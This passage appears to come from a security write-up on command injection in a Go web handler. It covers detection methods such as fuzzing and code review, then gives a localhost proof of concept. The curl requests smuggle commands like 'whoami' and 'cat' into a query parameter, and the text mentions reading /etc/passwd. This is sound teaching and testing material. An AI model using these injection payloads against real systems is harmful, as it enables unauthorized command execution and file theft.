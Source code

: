 4. **Fuzz Testing:**
    - Implement fuzz testing for input parameters that are suspected to be used in command execution. Fuzzers generate a large volume of varied, malformed, and unexpected inputs, which can uncover edge cases in parsing or command construction logic that lead to injection vulnerabilities.

A comprehensive detection strategy leverages multiple methods. SAST can identify potential issues early in the development cycle by analyzing source code. DAST and manual testing can confirm the exploitability of these issues in a running application. Manual code review remains crucial for understanding complex logic and data flows that automated tools might miss.

## **Proof of Concept (PoC)**

This Proof of Concept demonstrates how the `vulnerableHandler` function from Section 8 (Example 1) can be exploited.

**Assumptions:**

- The Go application with the `vulnerableHandler` is compiled and running.
- The web server is listening on `http://localhost:8080`.
- The vulnerable endpoint is `http://localhost:8080/vuln`.

**Steps to Reproduce:**

1. Baseline Test (Legitimate Request):
    
    Open a web browser or use a command-line tool like curl to send a legitimate request:
    
    curl "http://localhost:8080/vuln?param=world"
    
    - **Expected Output:** The server should respond with:
    User provided: world
2. Injecting a Simple Command (whoami):
    
    Craft a URL that injects a command using a semicolon (;) as a command separator. The semicolon allows a second command to be executed after the echo command.
    
    curl "http://localhost:8080/vuln?param=world;%20whoami"
    
    - **Explanation:**
        - `param=world; whoami` is the intended payload.
        - `%20` is the URL encoding for a space character.
        - The shell will interpret this as two commands: `echo User provided: world` AND `whoami`.
    - **Expected Output (assuming the application runs as user `appuser`):**
    User provided: world
    appuser
    The output of `whoami` (e.g., `appuser`) is appended to the output of the `echo` command. This confirms that the `whoami` command was executed on the server.
3. Injecting a Command to Read a File (e.g., /etc/hostname or a test file):
    
    Attempt to read a file from the server. For demonstration, let's assume a file /tmp/testfile.txt exists on the server with the content "Hello from testfile".
    
    curl "http://localhost:8080/vuln?param=world;%20cat%20/tmp/testfile.txt"
    
    - **Explanation:**
        - The injected command is `cat /tmp/testfile.txt`.
    - **Expected Output:**
    User provided: world
    Hello from testfile
    If `/etc/passwd` were readable by the application's user, `param=world;%20cat%20/etc/passwd` could be used.
4. Injecting a Command Causing a Time Delay (sleep):
    